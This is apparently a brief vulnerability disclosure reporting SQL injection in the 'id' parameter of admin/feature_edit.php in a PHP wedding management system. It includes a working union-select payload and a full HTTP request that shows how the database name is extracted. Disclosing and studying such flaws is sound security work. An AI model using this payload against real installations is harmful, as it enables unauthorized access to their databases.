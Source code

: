 # WeddingManagement System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\feature_edit.php

Vulnerability location: /Wedding-Management/admin/feature_edit.php?id=, id

[+] Payload: id=-8%20union%20select%201,2,database(),4--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/feature_edit.php?id=-8%20union%20select%201,2,database(),4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167984292-f278b8d3-84e7-4f7c-87b4-54a325f6caf2.png)

![image](https://user-images.githubusercontent.com/54017627/167984210-3a078777-568f-494a-afb8-0d87550dd1a6.png)
